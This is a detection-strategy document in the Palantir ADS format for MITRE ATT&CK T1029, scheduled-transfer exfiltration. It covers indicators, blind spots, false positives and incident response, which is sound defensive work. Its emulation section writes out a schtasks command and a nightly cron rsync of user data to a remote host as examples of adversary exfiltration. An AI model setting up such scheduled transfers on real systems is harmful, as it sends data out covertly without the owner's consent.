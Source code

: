 # Alerting & Detection Strategy: Scheduled Transfer (T1029)

## Goal
The goal of this technique is to detect adversarial attempts to bypass security monitoring using scheduled data transfers. This involves identifying unauthorized or suspicious transfer activities orchestrated by adversaries aiming to exfiltrate data at specific intervals.

## Categorization

- **MITRE ATT&CK Mapping:** T1029 - Scheduled Transfer
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1029)

## Strategy Abstract
The detection strategy leverages various data sources, including file system monitoring, network traffic analysis, and task scheduler logs. It focuses on identifying patterns such as unexpected scheduled tasks or anomalous transfer activities. Key indicators include:

- Unusual creation of scheduled tasks or cron jobs.
- Unexpected outbound network connections during off-hours.
- File modifications followed by immediate scheduling for data transfers.

The strategy employs heuristic and anomaly-based detection techniques to flag potential malicious activity while minimizing false positives.

## Technical Context
Adversaries often use legitimate system tools like Windows Task Scheduler, cron jobs on Linux/macOS, or third-party automation tools to schedule data transfers. These activities are typically masked as routine operations but may serve as a covert channel for exfiltration.

### Adversary Emulation Details

- **Windows:** Creation of tasks using `schtasks` to periodically transfer files.
  - Example Command: `schtasks /create /tn "BackupTask" /tr "C:\scripts\backup.bat" /sc daily /st 02:00`
  
- **Linux/macOS:** Scheduling cron jobs for data transfers.
  - Example Cron Entry: 
    ```
    0 2 * * * /usr/bin/rsync -avz /home/user/data user@remotehost:/path/to/destination
    ```

Test scenarios may involve setting up a controlled environment where these tasks are monitored to understand their behavior and detect anomalies.

## Blind Spots and Assumptions
- **Blind Spots:** 
  - Detection may miss sophisticated obfuscation techniques that disguise scheduled transfers as legitimate processes.
  - Limited visibility into encrypted network traffic without proper decryption capabilities.
  
- **Assumptions:**
  - Scheduled tasks are assumed to be created or modified by users with appropriate system privileges.
  - Network baselines are established and monitored for anomaly detection.

## False Positives
Potential benign activities that might trigger false alerts include:

- Legitimate backup processes scheduled during off-hours.
- Routine file synchronization tasks between authorized systems.
- Software updates or maintenance scripts running as part of organizational policies.

## Priority
**High**

Justification: Scheduled transfers are a common method for exfiltrating data without immediate detection. The potential impact includes significant data loss and breaches of sensitive information, making it imperative to prioritize their detection.

## Validation (Adversary Emulation)
Currently, no specific step-by-step instructions are available for adversary emulation in a test environment. However, creating controlled scenarios with scheduled tasks mimicking malicious activities can help validate the strategy.

## Response
When an alert fires:

1. **Immediate Investigation:**
   - Verify the legitimacy of the scheduled task or cron job.
   - Review network traffic logs to determine if data is being transferred to unauthorized destinations.

2. **Containment:**
   - Disable suspicious tasks immediately.
   - Isolate affected systems from the network to prevent further data loss.

3. **Analysis and Documentation:**
   - Conduct a thorough analysis to understand the scope of the scheduled transfer.
   - Document findings for future reference and improvement of detection strategies.

4. **Remediation:**
   - Update security policies to restrict unauthorized creation or modification of scheduled tasks.
   - Enhance monitoring capabilities to detect similar activities more effectively in the future.

## Additional Resources
Currently, no additional references are available. Further research and collaboration with industry peers may provide deeper insights into advanced detection techniques for T1029.

---

This report provides a comprehensive overview of the detection strategy for Scheduled Transfer (T1029) within the Palantir ADS framework. It outlines the goals, categorization, strategy abstract, technical context, blind spots, false positives, priority, response guidelines, and additional resources necessary for effective implementation.